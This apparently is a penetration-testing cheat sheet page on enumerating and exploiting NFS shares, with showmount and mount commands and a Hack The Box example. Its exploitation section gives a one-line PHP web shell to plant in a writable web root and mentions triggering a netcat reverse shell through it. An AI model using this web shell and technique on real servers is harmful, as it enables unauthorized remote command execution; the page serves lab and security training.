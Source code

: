 ```yaml
---
description: >-
  Network File System (NFS) is a file system protocol that allows a user on a
  client system to access files stored on a file server.
---
```


# 📂 2049/NFS

## Enumeration

* Open NFS’s work by utilizing read/write access permissions.
  * Read Access: Possible confidential file is available
  * Write Access: Possible file upload to execute through web service

### Useful Nmap Scripts <a href="#useful-nmap-scripts" id="useful-nmap-scripts"></a>

```
nfs-ls #List NFS exports and check permissions
nfs-showmount #Like showmount -e
nfs-statfs #Disk statistics and info from NFS share
```

## Mounting

To know **which folder** has the server **available** to mount you an ask it using:

```
showmount -e <IP>
```

Then mount it using:

```
mount -t nfs [-o vers=2] <ip>:<remote_folder> <local_folder> -o nolock
```

You should specify to **use version 2** because it doesn't have **any** **authentication** or **authorization**.

**Example:**

**Enumerate share:**

```
showmount -e 10.10.10.10
Export list for 10.10.10.10:
/site_backups (everyone)
```

Create directory for mount point:

```
sudo mkdir /mnt/HTB_Site_Backups
```

Mount the share to newly created mount point:

```
sudo mount -t nfs 10.10.10.10:/site_backups /mnt/HTB_Site_Backups/ -o nolock
```

## Exploitation Tips

* When you mount a directory, be sure to check the directory for it's permissions
* The mounted directory does not check the user, it simply checks it's permissions
* This means that if you create a user with the same permissions set, you will be able to read, write, or execute those files found within those directories
* Perhaps there's a web server running on that server and a mounted directory is /var/www/html, well if you can write to it, place a PHP webshell in there, and gain access to the server!

#### PHP Webshell

* An extremely simple PHP Webshell
* To use, simple name the file shell.php and place it in /var/www/html

```
<?php system($_GET['cmd']);?>
```

* Navigate to hackthebox.htb/shell.php?cmd=\<reverse shell here>
* I always found the most consistent way to catch a reverse shell is with the nc mkfifo reverse shell

## Tools:

Mount: For mounting share availability

Showmount: For finding shares available

## References

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/nfs-service-pentesting" %}

{% embed url="https://jamespatricksec.medium.com/enumerating-and-exploiting-nfs-1571cb484e16" %}

